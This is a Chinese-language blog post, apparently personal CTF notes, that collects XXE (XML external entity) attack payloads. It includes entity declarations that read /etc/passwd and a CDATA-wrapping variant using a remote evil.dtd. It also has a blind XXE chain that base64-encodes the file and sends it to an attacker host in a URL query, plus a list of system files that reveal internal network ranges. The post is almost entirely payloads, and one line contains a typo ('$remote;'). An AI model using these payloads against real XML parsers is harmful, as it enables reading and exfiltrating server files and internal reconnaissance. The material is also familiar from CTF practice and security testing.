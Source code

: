 ```yaml
---
title: "XXE 总结笔记"
date: 2022-08-27T18:18:31+08:00
lastmod: 2022-08-27T18:18:31+08:00
draft: false
author: "X1r0z"

tags: ['ctf','xxe']
categories: ['web','CTF 笔记']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


记录一下常用 xxe payload

想到啥写啥, 只是一个备忘录

<!--more-->

## 引用外部实体

SYSTEM

```xml-dtd
<!ENTITY xxs SYSTEM "file:///etc/passwd" >
```

PUBLIC

```xml-dtd
<!ENTITY % remote PUBLIC "dtd" "http://127.0.0.1/evil.dtd">
```

## 常规 xxe

通用实体

```xml-dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE test [
<!ENTITY file SYSTEM "file:///etc/passwd">]>
<test>
&file;
</test>
```

参数实体 (利用 CDATA)

```xml-dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE test [
<!ENTITY % start "<![CDATA[">
<!ENTITY % xxe SYSTEM "file:///etc/passwd">
<!ENTITY % end "]]>">
<!ENTITY % dtd SYSTEM "http://127.0.0.1/evil.dtd">
%dtd;]>
<test>
&all;
</test>
```

evil.dtd

```xml-dtd
<?xml version="1.0" encoding="utf-8"?>
<!ENTITY all "%start;%xxe;%end;" >
```

## blind xxe

payload

```xml-dtd
<!DOCTYPE test [
<!ENTITY % remote SYSTEM "http://127.0.0.1/evil.dtd">
$remote;%int;%send;
]>
```

evil.dtd

```xml-dtd
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://127.0.0.1/?p=%file;'>">
```

## 获取内网网段

```
/etc/network/interfaces
/etc/hosts
/proc/net/arp
/proc/net/tcp
/proc/net/udp
/proc/net/dev
/proc/net/fib_trie
```